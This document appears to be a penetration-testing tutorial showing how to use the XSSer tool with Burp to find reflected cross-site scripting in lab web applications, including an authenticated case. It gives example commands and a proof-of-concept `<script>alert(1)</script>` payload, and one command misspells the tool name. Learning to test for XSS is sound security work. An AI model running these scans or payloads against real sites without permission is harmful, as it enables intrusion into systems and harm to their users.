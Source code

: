 
### What is XSS ?

Cross-site scripting is a type of security vulnerability that can be found in some web applications. XSS attacks enable attackers to inject client-side scripts into web pages viewed by other users.

____

### XSSer Tool for Reflected XSS (POST)

**1. Identify Target and Capture POST Request with Burp**

- Start by entering text in the input prompt to identify XSS vulnerability. Use Burp to capture the corresponding POST request.

**2. Utilize XSSer on the Target**

- Execute XSSer on the target URL, setting the payload (`-p`) to the captured POST request. For instance:
```bash
xsser --url "http://<target-ip>/index.php?page=dns_lookup.php" -p "target_hosts=XSS&dns-lookup-php-submit-button=Lookup+DNS"
```
  - Add `XSS` in the payload to indicate the vulnerable variable.
  - Optionally, use `--auto` to assess the input field's vulnerability level automatically.

**3. Test with Custom JS Payload**

- Check if the input field is susceptible to a custom JS payload. Use `--Fp`. Example:
```bash
xsser --url "http://<target-ip>/index.php?page=dns_lookup.php" -p "target_hosts=XSS&dns-lookup-php-submit-button=Lookup+DNS" --Fp "<script>alert(1)</script>"
  ```
  - If vulnerable, XSSer will report `XSS FOUND!` along with the payload encoded into a new URL which can be opened in the browser.
  
____

### `XSSer` for requested XSS (GET)

**1. Identify Target and Capture POST Request with Burp**

- Start by entering text in the input prompt to identify XSS vulnerability. Use Burp to capture the corresponding POST request.

**2. Execute XSSer on the target URL.**

- In this case, the setting up the payload is not required. 
```bash
xsser --url "http://<target-ip>/index.php?page-user-poll.php&csrf-token=&choice=XSS&initials=&user-poll-php-submit-button=Submit+Vote"
```
- We can also use `--Fp` here to  set a custom payload. 

____

### Authenticated `XSS` Attack with `XSSer`

- In this attack, we are providing the cookie in order to authenticate, since the vulnerable form is behind a login page.

**1. Identify Target and Capture POST Request with Burp**

- Start by entering text in the input prompt to identify XSS vulnerability. Use Burp to capture the corresponding GET request.

**2. Execute `XSSer` on the target URL.**
```bash
xxser --url "http://<target>/htmli_get.php?user=XSS&pass=schmoe&form=submit" --cookie="security_level=0; PHPSESSID=<session-id>"
```